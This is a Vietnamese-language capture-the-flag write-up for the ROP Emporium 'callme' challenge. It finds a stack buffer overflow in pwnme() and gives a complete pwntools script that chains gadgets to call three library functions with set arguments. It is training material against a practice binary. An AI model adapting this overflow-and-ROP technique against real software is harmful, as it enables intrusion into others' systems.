 # ROP_Emporium - callme

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'


```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 8 cho phép ghi 0x200 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Có thể thấy ở bài này không có hàm win nên ta không thể sử dụng ret2win, khi tra cứu tất cả các hàm bằng gdb ta thấy 1 usefulGadgets():

![usefulGadget.png](images/usefulGadget.png)

Cũng như khi xét hàm usefulFunction():

![function.png](images/function.png)

Ở đầu usefulFunction() có các gadgets ta có thể tìm được trong file binary:

![ROP.png](images/ROP.png)

Tại usefullGadgets() có các hàm **pop** các thanh ghi **rdi,rsi,rdx** giống với tham số cho mỗi lần call **callme_one, callme_two, callme_three**

--> ROP_gadget

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành ROP_chain với các tham số và call hàm như hint đề bài:

![hint.png](images/hint.png)

Vậy các tham số truyền vào các hàm lần lượt là:
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

Và các hàm cần gọi lần lượt theo thứ tự: 
**callme_one**
**callme_two** 
**callme_three**

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./callme', checksec=False)

p = process("./callme")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
push_rbp = 0x0000000000400840
#system = elf.sym['system']
rdi_rsi_rdx_ret = elf.sym['usefulGadgets']
vuln = elf.sym['usefulFunction']

call1 = elf.sym['callme_one']
call2 = elf.sym['callme_two']
call3 = elf.sym['callme_three']

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

payload = flat(
    cyclic(0x28),
    push_rbp,
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call1,
    
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call2,
    
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call3
    )
p.sendlineafter(b">",payload)
p.interactive()


```

# 4. Lấy flag

![flag.png](images/flag.png)


